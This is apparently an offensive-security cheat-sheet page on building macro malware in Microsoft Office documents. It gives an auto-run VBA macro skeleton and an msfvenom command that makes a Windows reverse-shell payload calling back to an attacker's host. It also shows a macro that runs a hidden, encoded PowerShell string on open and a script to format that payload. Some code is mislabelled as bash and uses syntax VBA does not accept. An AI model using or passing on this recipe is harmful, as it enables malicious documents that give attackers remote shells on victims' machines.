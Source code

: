 # Microsoft Office

> Macro malware (sometimes known as macro viruses) takes advantage of the VBA (Visual Basic for Applications) programming in Microsoft Office macros to spread viruses, worms, and other forms of malware.

In order to create a Macro, we need to go to: **View > Macro**. Once in the code, make use of AutoOpen() and Document_Open() procedures in order to activate the macro when the document is open or re-opened.

```bash
# Executed when the document is opened
Sub AutoOpen()
  NewMacro
End Sub
#Executed when an already-open document is reopened.
Sub Document_Open()
  NewMacro
End Sub
#Main function (shellcode function)
Sub NewMacro()

End Sub
```

**Note:** Document should be saved as .docm or .doc  formats, .docx format doesn't support macros.

## Generating shellcode

```bash
#-f: Output file is HTA to Powershell.
msfvenom -p windows/shell_reverse_tcp LHOST=$IPADDRESS LPORT=$PORT -f hta-psh -o /var/www/html/$FILENAME.hta
```

Once the shellcode has been created, we need to edit the Macro as following:

```bash
Sub AutoOpen()
  NewMacro
End Sub
Sub Document_Open()
  NewMacro
End Sub
Sub NewMacro()
  #Create a String variable that will hold our shellcode:
  Dim Str As String
  #Paste shellcode here:
  Str = "powershell.exe -nop -w hidden -e 9038402JKLADFJ.."
  Str += "jhad9u01ehfkjna81neja..........................."
  Str += "................................................"
  #Invoke Windows Host Script in order to execute this string
  CreateObject("Wscript.Shell").Run Str
End Sub
```

## Format the output

```bash
str = "powershell.exe -nop -w ......."
n = 50

for i in range(0, len(str), n):
        print "Str = Str + " + '"' + str[i:i+n] + '"'
```
